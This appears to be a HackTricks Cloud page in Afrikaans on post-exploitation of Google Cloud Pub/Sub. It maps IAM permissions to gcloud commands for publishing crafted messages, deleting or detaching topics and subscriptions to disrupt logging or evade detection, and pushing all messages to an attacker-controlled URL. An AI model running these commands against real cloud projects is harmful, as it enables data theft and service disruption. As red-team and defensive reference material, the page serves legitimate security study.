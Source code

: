 # GCP - Pub/Sub Na-uitbuiting

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Pub/Sub

Vir meer inligting oor Pub/Sub, kyk na die volgende bladsy:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publiseer 'n boodskap in 'n onderwerp, nuttig om **onverwagte data** te stuur en onverwagte funksionaliteit te aktiveer of kwesbaarhede uit te buit:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Nuttig om te voorkom dat 'n intekening boodskappe ontvang, miskien om opsporing te vermy.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Nuttig om te voorkom dat 'n intekening boodskappe ontvang, miskien om opsporing te vermy.\
Dit is moontlik om 'n onderwerp te verwyder selfs as daar intekeninge daaraan geheg is.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Gebruik hierdie toestemming om 'n instelling van die onderwerp te verander om dit te ontwrig, soos `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Gee jouself toestemming om enige van die vorige aanvalle uit te voer.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Kry al die boodskappe in 'n webbediener:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Skep 'n intekening en gebruik dit om **boodskappe te trek**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Verwyder 'n intekening** kan nuttig wees om 'n logverwerkingstelsel of iets soortgelyks te ontwrig:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### &#x20;`pubsub.subscriptions.update`

Gebruik hierdie toestemming om 'n instelling by te werk sodat boodskappe in 'n plek gestoor word waar jy toegang tot het (URL, Big Query-tabel, Bucket), of net om dit te ontwrig.

### `pubsub.subscriptions.setIamPolicy`

Gee jouself die toestemmings wat nodig is om enige van die vorige aanvalle uit te voer.

### `pubsub.schemas.delete`

Verwyder 'n skema om boodskappe te stuur wat nie aan die skema voldoen nie:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Val aan 'n skema aan 'n onderwerp sodat die boodskappe dit nie nakom nie en dus die onderwerp ontwrig word.\
As daar nie enige skemas is nie, moet jy dalk een skep.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

Gee jouself die regte om enige van die vorige genoemde aanvalle uit te voer.

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

Dit sal 'n afskrif van al die onbevestigde boodskappe skep en dit terugplaas na die intekening. Nie baie nuttig vir 'n aanvaller nie, maar hier is dit:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
